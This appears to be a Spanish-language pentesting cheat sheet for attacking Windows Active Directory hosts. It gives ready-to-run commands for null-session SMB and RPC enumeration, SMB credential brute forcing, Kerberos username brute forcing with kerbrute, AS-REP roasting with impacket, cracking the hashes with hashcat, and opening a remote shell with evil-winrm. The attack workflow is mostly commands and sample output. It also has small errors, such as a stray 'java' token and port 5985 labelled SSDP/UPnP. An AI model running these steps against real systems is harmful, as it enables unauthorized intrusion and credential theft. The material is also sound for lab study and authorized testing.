 ----
- Tags: #windows #bascio #enumeration #ataque #teoria #practica 
- ------

- # Puerto 445 ( SMB ) 

```shell
crackmapexec smb {taget_ip}
# Obtener información de la maquina victima, esto puede devolvernos el nombre de la maquina, dominios, version de windows, etc (Dominios al /etc/hosts)
crackmapexec smb {target_ip0} --shares
# Intentar enumerar recursos compartidos a nivel de red
smbmap -H {target_ip} -u "null"java
# Otra alternativa para intentar enumerar recursos compartidos a nivel de red y como no tenemos credenciales especificando -u "null" o no poniendo esto estamos intentando hacerlo con una null sesion.
smbclient -L {target_ip} -N
# Otra alternatica para de nuevo intentar enumerar recursos compartidos a nivel de red, -N (Null sesion)
smbclient //{target_ip}/{recurso_name} -N 
# Conectarse a un recurso compartido a nivel de red con Null session 
# Una vez conectado, podriamos listar los recursos # shares, # use {recurso}, # ls, # get 
crackmapexec smb {target_ip} -u users.txt -p "password" --continue-on-success
# Realizar fuerza bruta de validacion de credenciales para un grupo de usuarios

# Enumerar recursos compartidos de manera recursiva con credenciales 
smbmap -H {target_ip} -u 'user' -p 'password' -r {$SHARE_NAME}

# Muchas veces, en los servicios smb tenemos muchas carpetas y el ir moviendonos entre ellas y demás se vuelve más dificil, lo que podemos hacer es jugando con monturas traernos todas las carpetas a una ruta de nuestro sistema. Primero tendriamos que tener instalado el cifs-utils para mosteriormente ejecutar el sig comando: 
mount -t cifs //{target_ip}/{recurso} /our/path
# Tambien se puede intentar mostrar la montura de la sig manera:
mount -t cifs //{target_ip}/{recurso} /our/path -o username=null,password=null,domain=,rw
# Y para desmontar la montura 
umount /our/path
```

- # Puerto 135 ( RPC )

```shell
rpcclient -U "" {target_ip} -N
# Si nos devuelve "rpcclient $>" podriamos intentar enumerar usuarios (enumdomusers) del DA para intentar realizar ataques como "AS-REP Roast" 
rpcclient -U "user%password" {target_ip} -N
# Esto con "rpcclient $> enumdomusers" devolveria por ejemplo algo como:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
# Devuelve a los usuarios junto a su rid
rpcclient $> enumdomgroups
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
# Devuelve los grupos junto a su rid 
rpcclient $> querygroupmem {rid} 0x200
rid:[0x1f4] attr:[0x7]
# Esto devuelve todos los usuarios pertenecientes a dicho grupo
rpcclient $> queryuser {rid} 0x1f4
# Esto devuelve los datos del usuario consultado 
rpcclient $> querydispinfo
# Devuelve las descripciones de los grupos 
```

### **Descripción:** [[AS-REP Roast Attack]]

- # Puerto 389 ( LDAP ) 

```shell
ldapsearch -H "ldap://{target_ip}" -x -s base namingcontexts
# Enumerar servicio ldap, en este caso, namingcontexts
ldapsearch -H "ldap://{target_ip}" -x -b {naming_context}
# Enumerar el servicio ldap
ldapsearch -H ldap://{target_ip}/ -x -D 'user@domain' -w 'password' -b "DC=subdomain,DC=tld"
# Corroborar credenciales validas
ldapsearch -H ldaps://{target_ip}/ -x -s base -b '' "(objectClass=*)" "*" +  
# Anonymous access
#################################################################################
nmap -n -sV --script "ldap* and not brute" -p 389 {target_ip}
# Manera alternatica de enumerar el servicio ldap

```

- ### Más enumeración de LDAP con ldap search en 
#### https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap

- # Puerto 88 ( KERBEROS )

##### SecLists/Usernames/xato-net-10-million-usernames.txt ---> Para fuerza bruta
### Existen herramientas como kerbrute https://github.com/ropnop/kerbrute las cuales nos permiten hacer fuerza bruta hacia kerberos 


- ### Flujo de interno de Kerberos --->  [[KERBEROS_AUTHETICATION_FLOW]]

### Esto siempre puede ser enlazado con las enumeraciones anteriores, por ejemplo si al enumerar el ldap vemos que se enumera un namingcontext que puede ser de un usuario como "Owen Bonoris" podriamos pensar de que este sea un usuario valido y comenzar a ingresar combinaciones posibles como usuario:

- ##### owen.bonoris
- ##### owenb
- ##### bowen
- ##### bonoris.o
- ##### obonoris
- ##### o.bonoris
- ##### owen.b
- ##### b.owen

### Estas convinaciones podrían ser guardadas en un archivo, por ejemplo users.txt y de esta menera haciendo uso de kerbrute realizar fuerza burta

```shell
kerbrute userenum --dc {target_ip} -d {domain_name} users.txt
# Fuerza bruta al domain de nuestra maquina victima intentando enumerar usuarios validos de ldomain en base a una wordlists de usuarios
impacket-GetNPUsers {domain_name}/ -no-pass -usersfile users.txt
# Esto es para con unos ciertos usuarios probar conseguir el hash NetNTLMv2 pero tambien podria ser usado para fuerza bruta ya que devolveria en caso de conseguir un usuario existente un output diferente.
# Si el usuario no exsite [-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database), si el usuario existe [-] User hsmith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

### Una vez que tuvieramos usuarios tambien podriamos pensar en un *AS-REP Roast Attack*  pero como kerbrute ya lo hace de manera interna, si no vemos en el output un hash quiere decir que el usuario no tiene configurado el *UF_DONT_REQUIRE_PREAUTH*, por lo que no podemos obtener el hash NetNTLMv2.

### En caso de tener un hash, podriamos usar la herramienta "hashcat" para intentar romper el hash, para esto es importante saber el modo del hash al que nos enfrentamos, por ejemplo, si el hash que capturaramos fuese `$krb5asrep$23$user@domain.com:378sh129fsdf8sdf7...`  podriamos buscar con el comando hashcat --example-hashes y filtradon por el "krb5asrep" (`hashcat --example-hashes | grep -B 11 "krb5asrep"`) para poder conseguir asi el modo que sera utilizado posteriormente con la herramienta "hashcat"
##### `hashcat -m {hash_mode} -a {attack_mode} hash rockyou.txt`
### Para obtener el hash mode, `hashcat --example-hashes` 

### En caso de lograr crackear el hash NetNTLMv2, indicaria que podriamos tener credenciales validas, esto lo podemos corroborar con la herramienta "crackmapexec": 
##### (`crackmapexec smb {target_ip} -u {username} -p {password}`)
### De esta manera, en caso de obtener un "**\[+\]**" indicaria de que las mismas son validas, aunque para poder obtener una shell interactiva buscamos que al usuario le aparezca un "Pwn3d!" para poder usar xexec y intentar ganar acceso al sistema, en caso de que no, podriamos en caso de tener el puerto 5985 ( SSDP / UPnP) (Servicio de administración remota de windows)
### De manera que podriamos verificar si el usuario en cuestion pertenece al grupo "Remote Managment Users" los cuales pueden conectarse de manera remota:
##### (`crackmapexec winrm {target_ip} -u {username} -p {password}`)
### En caso de obtener el glorioso "Pwn3d!", podriamos con herramientas como "evil-winrm",  entablar una consola remota.
##### `evil-winrm -i {target_ip} -u {username} -p {password}`

- # Puerto 53 ( Domain )

### Podriamos emitirs solicitudes DNS para ver si podemos aplicar un DNS zone transfer (AXFR) con la herramienta dig

```shell
dig @{target_ip} {domain_name} ns
# Emitir solicitudes para enumerar Name Servers
dig @{target_ip} {domain_name} mx 
# Emitir solicitudes para enumerar servidores de correo
dig @{target_ip} {domain_name} axfr
# Probar un DNS Zone Trasfer
```

- # Puerto 5985 ( WinRM ) 

### Puerto que suele correr el Servicio de administración remota de windows, el cual al estar activo, podria permitirnos posteriormente intentar con utilidades como crackmapexec, ver si un usuario con credenciales pertenece al grupo "**Remote Managament Users**".